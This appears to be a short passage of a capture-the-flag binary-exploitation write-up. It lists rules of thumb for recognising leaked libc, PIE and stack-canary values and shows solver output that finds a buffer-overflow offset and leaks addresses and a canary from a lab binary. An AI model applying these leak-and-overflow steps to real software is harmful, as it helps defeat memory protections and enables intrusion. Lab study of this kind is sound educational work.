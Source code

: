We know that:
* `libc` addresses start with `0x7f`
* `PIE` addresses start with `0x5`
* `Canary` is a 8 byte value ending with `00`.

```console
➜  challenge git:(main) ✗ python solver.py 
[*] '/home/w3th4nds/github/Thesis/challenge8/challenge/challenge8'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Loaded 14 cached gadgets for './challenge8'
[*] '/home/w3th4nds/github/Thesis/challenge8/challenge/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled

[*] Searching for Overflow Offset..

[+] Buffer Overflow Offset found at: 328


[*] Possible LIBC address:
Index: 1 -> 0x7ffeb04f1330

[*] Possible LIBC address:
Index: 3 -> 0x7f0fdebe8151

[*] Possible LIBC address:
Index: 7 -> 0x7f0fdf0f4710

[*] Possible LIBC address:
Index: 10 -> 0x7f0fdf0f4a98

[*] Possible LIBC address:
Index: 11 -> 0x7ffeb04f1458

[*] Possible LIBC address:
Index: 12 -> 0x7ffeb04f1490

[*] Possible LIBC address:
Index: 13 -> 0x7f0fdf0f4710

[*] Possible PIE address:
Index: 46 -> 0x557bad1a1c28

[*] Possible Canary:
Index: 47 -> 0x57af316cd05a8100
```
